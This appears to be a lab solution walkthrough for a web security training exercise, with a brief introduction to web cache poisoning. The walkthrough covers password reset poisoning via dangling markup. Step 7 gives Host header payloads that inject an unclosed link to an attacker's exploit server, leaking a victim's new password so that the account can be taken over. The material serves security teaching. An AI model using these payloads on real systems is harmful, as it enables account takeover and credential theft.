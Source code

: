### Password reset poisoning via dangling markup

This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.

**Solution**

1. Go to the login page and request a password reset for your own account.
2. Go to the exploit server and open the email client to find the password reset email. Observe that the link in the email simply points to the generic login page and the URL does not contain a password reset token. Instead, a new password is sent directly in the email body text.
3. In the proxy history, study the response to the *GET /email* request. Observe that the HTML content for your email is written to a string, but this is being sanitized using the *DOMPurify* library before it is rendered by the browser.
4. In the email client, notice that you have the option to view each email as raw HTML instead. Unlike the rendered version of the email, this does not appear to be sanitized in any way.
5. Send the *POST /forgot-password* request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the Host header and still reach the site as normal. Sending this request will still trigger a password reset email:

    ```Host: your-lab-id.web-security-academy.net:arbitraryport```

6. In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password.
7. Send the *POST /forgot-password* request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:

    ```Host: your-lab-id.web-security-academy.net:'<a href="//your-exploit-server-id.web-security-academy.net/?```

    ```Host: acc81f231fbdfd6bc08930b1003700eb.web-security-academy.net:'<a href="//exploit-ac931fde1f85fd00c0a03047014700ab.web-security-academy.net/?```

8. Check the email client. You should have received a new email in which most of the content is missing. Go to the exploit server and check the access log. Notice that there is an entry for a request that begins *GET /?/login'>[…]*, which contains the rest of the email body, including the new password.
9. In Burp Repeater, send the request one last time, but change the username parameter to *carlos*. Refresh the access log and obtain Carlos's new password from the corresponding log entry.
10. Log in as *carlos* using this new password to solve the lab.

## Web cache poisoning via the Host header

 For example, you may find that the Host header is reflected in the response markup without HTML-encoding, or even used directly in script imports.

 However, if the target uses a web cache, it may be possible to turn this useless, reflected vulnerability into a dangerous, stored one by persuading the cache to serve a poisoned response to other users.

To construct a web cache poisoning attack, you need to elicit a response from the server that reflects an injected payload. The challenge is to do this while preserving a cache key that will still be mapped to other users' requests. If successful, the next step is to get this malicious response cached. It will then be served to any users who attempt to visit the affected page.
